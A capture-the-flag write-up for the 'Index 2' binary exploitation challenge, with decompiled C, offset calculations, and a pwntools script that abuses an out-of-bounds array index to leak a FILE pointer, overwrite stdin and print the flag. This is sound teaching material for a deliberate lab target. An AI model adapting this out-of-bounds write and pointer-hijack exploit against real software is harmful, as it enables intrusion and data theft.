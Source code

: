# Index 2

```
This time, you get the file pointer, not the flag itself.
```

Decompiled code via Ghidra:

```c
undefined8 main(undefined8 *param_1)
{
  int iVar1;
  long in_FS_OFFSET;
  char local_78 [104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  do {
    while( true ) {
      menu();
      fgets(local_78,100,stdin);
      iVar1 = atoi(local_78);
      if (iVar1 < 5) break;
      if (iVar1 == 0x539) {
        f = fopen("flag.txt","r");
      }
    }
    switch(iVar1) {
    case 0:
      printf("Invalid choice: %s",local_78);
      break;
    case 1:
      store_data();
      break;
    case 2:
      read_data();
      break;
    case 3:
      print_flag();
      break;
    case 4:
      puts("Bye!");
      if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
        return 0;
      }
                    /* WARNING: Subroutine does not return */
      __stack_chk_fail();
    }
  } while( true );
}


void read_data(void)
{
  int local_c;
  
  printf("Index: ");
  __isoc99_scanf(&DAT_00102041,&local_c);
  getchar();
  printf("Data: %s",nums + (long)local_c * 8);
  return;
}


void store_data(void)
{
  long in_FS_OFFSET;
  int local_1c [3];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  printf("Index: ");
  __isoc99_scanf(&DAT_00102041,local_1c);
  getchar();
  printf("Data: ");
  fgets(nums + (long)local_1c[0] * 8,8,stdin);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Steps:

1. open `flag.txt` and save `FILE *` to f variable
2. use out of bounds read to read `f` in `read_data`: `flag` is at 0x1040a0, `nums` is at 0x104060, so index is `(0x1040a0-0x104060)/8=8`
3. override stdin to `f`: `nums` is at 0x104060, `stdin` is at 0x104030, so index is `(0x104030-0x104060)/8=-6`
4. then the program finds data read from stdin invalid in `fgets(local_78,100,stdin);iVar1 = atoi(local_78);`, and prints out its content via `printf("Invalid choice: %s",local_78);`
5. get flag

Code:

```python
from pwn import *
elf = ELF("./index-2")
context.binary = elf
context.terminal = ["tmux", "split-w", "-h"]
context(arch='amd64', os='linux', log_level='debug')

p = remote("play.scriptsorcerers.xyz", 10022)
#p = process("./ld-linux-x86-64.so.2 ./index-2", shell="True")
p.sendline("1337")
p.sendline("2")
p.recvuntil("Index")
p.sendline("8")
# get f addr
data = p.recvline()
addr = data.split()[2][:-2]
print(data, addr.hex())
# point stdin to f
p.sendline("1")
p.recvuntil("Index")
p.sendline("-6")
p.recvuntil("Data")
p.sendline(addr+b"\x00"*2)
p.interactive()
```

Get flag:

```
Invalid choice: scriptCTF{4rr4y_OOB_l3v3l_up!_a1cfd21b2bbd}
1. Store data
2. Read data
3. Print flag
4. Exit
```

Credits to @Rosayxy.
